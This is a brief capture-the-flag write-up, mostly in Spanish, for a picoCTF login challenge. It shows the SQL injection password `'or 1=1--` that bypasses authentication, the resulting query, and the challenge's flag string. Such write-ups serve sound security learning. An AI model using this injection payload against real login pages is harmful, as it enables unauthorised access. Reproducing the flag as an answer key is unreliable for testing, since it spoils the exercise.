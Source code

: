 ## Objetivo
Can you login to this website?Try to login [here](http://saturn.picoctf.net:57949/).
## Solución
```bash
username: admin
password: 'or 1=1--
SQL query: SELECT * FROM users WHERE name='admin' AND password=''or 1=1--'

# Logged in! But can you see the flag, it is in plainsight.
```
## Notas Adicionales
Es un sitio de login, ingresamos cualquier cosa para descubrir que esta usando SQL, lo cual podemos aprovechar usando una inyeccion sql.
lo cual hice ingresando como usuario `admin` y password `'or 1=1--`
lo cual nos dice que estamos loggeados correctamente, ahora solo inspeccionamos la pagina y la flag se encuentra dentro de el codigo fuente de dicha pagina (login.php).
`picoCTF{L00k5_l1k3_y0u_solv3d_it_ec8a64c7}`
### Referencias